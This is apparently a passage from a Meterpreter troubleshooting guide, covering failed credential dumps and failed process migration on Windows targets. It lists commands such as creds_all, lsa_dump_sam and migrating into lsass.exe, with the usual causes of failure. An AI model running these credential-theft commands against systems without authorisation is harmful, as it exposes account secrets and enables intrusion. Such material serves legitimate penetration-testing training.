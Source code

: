 ```bash
```

**Common Causes:**
- Not running as SYSTEM user
- Wrong process architecture (x86 vs x64)
- Process doesn't have required privileges
- Target system too old (Windows XP/Vista)

---

### **❌ Problem 2: No Credentials Found**

**What You See:**
```bash
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
# Empty tables or no useful data
```

**How to Fix:**
```bash
# Step 1: Try specific credential types
creds_msv
creds_kerberos
creds_livessp
# See if any specific type has data

# Step 2: Check SAM database directly
lsa_dump_sam
# This should always show local accounts

# Step 3: Verify target system state
sysinfo
# Check Windows version and architecture
```

**Common Causes:**
- System just rebooted (credentials cleared from memory)
- No users have logged in recently
- Credential Guard enabled (Windows 10+)
- System running in safe mode

---

### **❌ Problem 3: Migration Fails**

**What You See:**
```bash
meterpreter > migrate -N lsass.exe
[-] core_migrate: Operation failed: Access is denied
```

**How to Fix:**
```bash
# Step 1: Check what processes are available
ps
# Look for processes running as SYSTEM

# Step 2: Try alternative processes
migrate -N winlogon.exe
# Or: migrate -N services.exe

# Step 3: Check privileges again
getuid
# Might need privilege escalation

```